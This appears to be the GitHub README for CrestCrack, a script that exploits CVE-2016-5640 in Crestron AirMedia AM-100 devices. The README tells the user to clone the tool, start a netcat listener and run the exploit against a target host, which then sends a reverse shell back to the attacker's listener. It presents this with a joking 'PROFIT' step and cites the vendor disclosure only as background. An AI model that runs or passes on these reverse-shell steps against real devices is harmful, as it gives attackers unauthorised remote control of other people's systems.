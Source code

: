 ![Supported Python versions](https://img.shields.io/badge/python-3.7-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 
(v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell 
between your target and a netcat listener of your choice.
## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack` 2. Launch a netcat listener `nc 
-lvp 1337` 3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 
255.255.255.255 1337` 4. ?????? 5. **PROFIT**
###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***
###Example:
**./crescrack.py https://targethost 123.123.123.123 3311**
 
## Additional Vulnerability Information:
[Cylance Vulnerability 
Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md) [NIST 
CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)
## To be added:
- Error handling/bounds checking - Enhanced argument support - --help output
